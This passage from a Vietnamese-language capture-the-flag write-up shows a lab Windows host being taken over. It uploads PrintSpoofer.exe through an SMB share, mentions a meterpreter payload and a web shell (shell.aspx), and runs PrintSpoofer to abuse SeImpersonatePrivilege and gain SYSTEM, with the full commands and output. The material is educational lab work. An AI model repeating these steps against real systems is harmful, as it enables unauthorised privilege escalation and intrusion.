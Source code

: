 May mắn là đã có người làm thay tôi việc đó up nó lên github, và nó ở [đây](https://github.com/dievus/printspoofer.git). Bây giờ thì chỉ cần clone nó về và đẩy nó vào máy mục tiêu. 
```python
┌──(neo㉿kali)-[~/printspoofer]
└─$ smbclient \\\\10.10.114.141\\nt4wrksv        
Password for [WORKGROUP\neo]:
Try "help" to get a list of possible commands.
smb: \> put PrintSpoofer.exe 
putting file PrintSpoofer.exe as \PrintSpoofer.exe (29.4 kb/s) (average 29.4 kb/s)
smb: \> dir
  .                                   D        0  Wed Aug 10 00:03:19 2022
  ..                                  D        0  Wed Aug 10 00:03:19 2022
  passwords.txt                       A       98  Sat Jul 25 11:15:33 2020
  PrintSpoofer.exe                    A    27136  Wed Aug 10 00:03:19 2022
  shell.aspx                          A  1013006  Tue Aug  9 22:00:27 2022

                7735807 blocks of size 4096. 5158914 blocks available
```
Chạy lại meterpreter payload và thực hiện lại lệnh `curl`, sau đó tìm xem file exe vừa đẩy lên ở đâu.
```python
c:\>dir "\PrintSpoofer.exe" /s
dir "\PrintSpoofer.exe" /s
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of c:\inetpub\wwwroot\nt4wrksv
```
Bây giờ thì lấy quyền admin thôi.
```python
c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c cmd
PrintSpoofer.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>cd \users\administrator\desktop
cd \users\administrator\desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is AC3C-5CB5

 Directory of C:\Users\Administrator\Desktop

07/25/2020  08:24 AM    <DIR>          .
07/25/2020  08:24 AM    <DIR>          ..
07/25/2020  08:25 AM                35 root.txt
               1 File(s)             35 bytes
               2 Dir(s)  21,130,473,472 bytes free
```
